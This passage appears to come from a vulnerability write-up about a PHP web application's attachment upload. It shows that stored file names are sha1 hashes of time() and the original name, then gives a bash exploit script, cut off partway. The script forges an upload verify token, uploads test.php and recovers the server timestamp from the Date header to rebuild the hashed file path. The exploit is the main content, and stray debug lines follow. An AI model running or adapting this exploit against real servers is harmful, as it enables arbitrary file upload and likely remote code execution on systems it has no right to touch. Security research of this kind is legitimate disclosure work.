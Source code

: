 ```php
    mkdir(DIR_WS_ATTACHMENTS  . date('Y'). '/' . date('m'). '/' . date('d'));
}

return array('name'=>time() . '_' . $filename,
                'file'=>(CFG_ENCRYPT_FILE_NAME==1 ? sha1(time() . '_' . $filename) : time() . '_' . $filename),
                'folder'=>date('Y') . '/' . date('m') . '/' . date('d'));
}
```

In the above code is defined a string variable `$filename` which correspond to the filename of the initial file uploaded as it is refered by `$file = attachments::prepare_filename($_FILES['Filedata']['name']);`. The name of the resulting file is the result of the `sha1()` function which has as its parameter the string `time() . '_' . $filename`.

>time — Return current Unix timestamp.
>```
>time ( void ) : int
>```
>Returns the current time measured in the number of seconds since the Unix Epoch (January 1 1970 00:00:00 GMT). 

To recover the timestamp generate from the `time()` function we may be able to use the value of the `Date` Header returned by the server. Once this is implemented, we get the following exploit:

File: <span style="color:red">exploit.sh</span> 
```bash
BASE_URL=$1
SID=$2
echo "Setting target: $BASE_URL"
echo "Setting sid: $SID"

echo ""

echo "Extracting \$app_user['id']:"
APP_USER_ID=`curl -s "$BASE_URL/index.php?module=users/account" -H "Cookie: sid=$SID" | grep "validate_form&id=" | cut -d '=' -f 3 | cut -d "'" -f 1`
echo "  =>  \$app_user['id']: $APP_USER_ID"

echo "Setting arbitrary \$_POST['timestamp']:"
TIMESTAMP=1337
echo "  =>  \$_POST['timestamp']: 1337"

echo "Calculating \$verifyToken:"
VERIFY_TOKEN=`echo -n "$APP_USER_ID$TIMESTAMP" | md5sum | cut -d ' ' -f 1`
echo "  =>  \$verifyToken: $VERIFY_TOKEN"

echo ""

echo "[*] Trying to upload test.php ..."
curl "$BASE_URL/index.php?module=users/account&action=attachments_upload" -H "Cookie: sid=$SID" -F "timestamp=$TIMESTAMP" -F "token=$VERIFY_TOKEN" -F 'Filedata=@test.php'

echo ""

echo "[*] Trying to recover time() output:"
TIME=$(date -d "`curl -si "$BASE_URL" | grep "Date:" | sed 's/Date: //'`" +%s)
echo "  =>  timestamp: $TIME"

echo "[*] Trying to recover the generated filename:" 
FILENAME=` echo -n $TIME"_test.php" | sha1sum | cut -d ' ' -f 1`
echo "  =>  filename: $FILENAME"

echo "[*] Trying to reconstructing full path:"
DATE=`date +"%Y/%m/%d"`
```

[DEBUG]: Start
[DEBUG]: Start